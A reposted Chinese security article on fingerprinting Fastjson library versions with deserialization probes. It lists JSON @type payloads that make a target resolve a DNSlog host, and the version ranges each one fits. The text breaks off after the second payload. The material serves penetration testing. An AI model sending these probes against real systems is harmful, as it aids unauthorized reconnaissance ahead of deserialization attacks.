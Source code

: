 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247487676&idx=1&sn=9f81c26d7c28f870920d7b4a352a8d8d

#  精选3：Fastjson反序列化漏洞区分版本号的方法大集合  
abc123info  希潭实验室   2025-07-22 00:33  
  
 Part1 前言   
  
大家好，我是ABC_123  
。欢迎大家关注公众号"希水涵精选录"。  
"希潭实验室"是ABC_123运营的第一个公众号，只发ABC_123本人的原创技术文章；  
而  
"希水涵精选录  
"  
是ABC_123运营的第二个公众号，  
专注于转载精心筛选的高质量技术文章  
。  
ABC_123会从海量的技术文章中摘出精品，  
把真正有价值、有干货的内容推荐给大家  
，同时也欢迎大家积极投稿给我，  
一起把好文章分享给更多人！  
  
转载声明：  
此篇文章的原创作者是f0ng，在此感谢。作者的公众号如下：  
  
  
每次测试遇到fastjson无法定位版本，部分文章里的payload也没有准确的版本范围，抽空对payload做了个测试，这里记录下  
使用常见的payload对fastjson版本进行测试，方便遇到fastjson进行较小范围的版本判断。本篇文章记录下常见的payload对于一些版本的判断测试。  
##   
##  Part2 通过dnslog判断版本   
  
测试的一切payload均采用fastjson的默认配置，本次测试只用到了
```
com.alibaba.fastjson.JSON.parse()
```

  
函数。  
  
#### 测试语句1：【fastjson>=1.2.37】  

```
{&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONObject&#34;, {&#34;@type&#34;: &#34;java.net.URL&#34;, &#34;val&#34;:&#34;http://§1§.{{URL}}&#34;}}&#34;&#34;}
```

#### 实验结论：可用范围1.2.37-1.2.83，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句2：  
【fastjson>=1.2.37】  

```
{{&#34;@type&#34;:&#34;java.net.URL&#34;,&#34;val&#34;:&#34;http://§1§.{{URL}}&#34;}:0
```
